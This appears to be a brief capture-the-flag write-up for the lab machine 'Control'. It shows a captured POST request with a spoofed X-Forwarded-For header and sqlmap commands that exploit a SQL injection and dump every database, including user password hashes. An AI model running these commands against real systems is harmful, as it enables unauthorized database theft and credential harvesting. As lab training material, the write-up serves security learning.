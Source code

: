 # Alternative way to exploit Control

## SQL Injection with SQLmap

After knowing that there is a **SQL Injection vulnerability** in the _"Find Products"_ feature, the GET request can be copied into a file _(control_sqli.req)_ and sent to **SQLmap**:
```
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
(...)
X-Forwarded-For: 192.168.4.28

productName=p
```

```
sqlmap -r control_sqli.req --technique=U --batch
```

Dumping all the data from the databases:
```
sqlmap -r control_sqli.req --technique=U --batch --dump-all
```

It will dump all the data and also the hashes of the users.
